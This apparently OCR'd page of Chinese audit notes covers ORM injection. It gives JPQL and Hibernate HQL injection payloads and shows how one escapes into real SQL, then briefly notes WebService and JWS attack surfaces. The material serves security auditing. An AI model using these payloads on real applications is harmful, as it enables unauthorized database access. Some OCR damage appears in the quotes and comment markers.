 ORM注入
数字类型（ JPQL ）：
SELECT e FROM user e WHERE e.id = SQL('(select 1 from
dual where 1=1)’) and SQL('(SELECT 1)=1’)
字符类型（JPQL）：
通常指的是类似hibernate一类具有安全语法检测的注入

![image-20220212203124622](众测项目/images/image-20220212203124622.png)













#### 基于Hibernate类型的绕过分析

ORM注入
数字类型（ Hibernate ORM ）：
test\'' or 1<length((select version())) – 翻译成为HQL语句就变为：
SELECT p FROM pl.btbw.persistent.Post p where
p.name='test\'' or 1<length((select version())) – ' 最后转变为真正的SQL语句：
select post0_.id as id1_0_, post0_.name as name2_0_ from
post post0_ where post0_.name=‘test\'' or
1<length((select version())) -- ' 这样我们就会逃逸出来一个语句或者方法
通常指的是类似hibernate一类具有安全语法检测的注入









## 二、基于三方调用框架分析利用

#### WEBSERVICE接口

1.默认的安全配置2.未授权的访问3.自身未修复漏洞WEBSERVICE

Jws文件审计  

​	通常而言jws文件也是axis2发布的一种表现形式，然后更多的被
审计人员忽略
